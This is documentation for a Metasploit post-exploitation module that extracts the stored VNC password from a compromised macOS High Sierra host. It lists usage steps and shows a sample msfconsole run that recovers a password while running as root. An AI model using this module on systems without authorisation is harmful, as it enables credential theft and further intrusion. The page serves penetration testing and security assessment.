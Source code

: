 This module show Apple VNC Password from Mac OS X High Sierra.

## Vulnerable Application

  * macOS 10.13.6*


## Verification Steps

  Example steps in this format (is also in the PR):

  1. Start `msfconsole`
  2. Do: `post/osx/gather/vnc_password_osx`
  3. Do: set the `SESSION [ID]`
  4. Do: ```run```
  5. You should get the password


## Scenarios

  Typical run against an OSX session, with the vnc service activated:

```
msf5 exploit(multi/handler) > use post/osx/gather/vnc_password_osx
msf5 post(osx/gather/vnc_password_osx) > set SESSION 1
SESSION => 1
msf5 post(osx/gather/vnc_password_osx) > exploit

[*] Running module against MacBook-Pro.local
[*] This session is running as root!
[*] Checking VNC Password...
[+] Password Found: PoCpassw
[*] Post module execution completed
msf5 post(osx/gather/vnc_password_osx) >
```

